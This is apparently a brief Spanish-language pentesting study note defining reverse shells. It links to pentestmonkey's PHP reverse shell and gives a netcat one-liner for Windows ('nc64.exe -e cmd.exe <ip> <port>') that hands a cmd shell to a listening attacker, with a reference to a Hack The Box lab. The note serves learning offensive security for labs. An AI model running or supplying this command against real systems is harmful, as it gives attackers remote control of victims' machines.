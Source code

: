 Es aquella que se obtiene cuando es la máquina víctima la que trata de establecer la conexión con nuestra máquina de atacante (que estaría en escucha). Es lo opuesto a una [[Bind shell]].

# Ejemplos

La mejor página para buscar reverse shells es [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

## Linux

### php



## Windows

### nc64.exe

Utilizando el binario de netcat para windows x64 podemos mandarnos una reverse shell. Se utiliza en [[Archetype HTB]].

```powershell
.\nc64.exe -e cmd.exe <ip> <port>
```

Con el parámetro `-e` indicamos que queremos ejecutar un archivo al conectarnos, en este caso una cmd.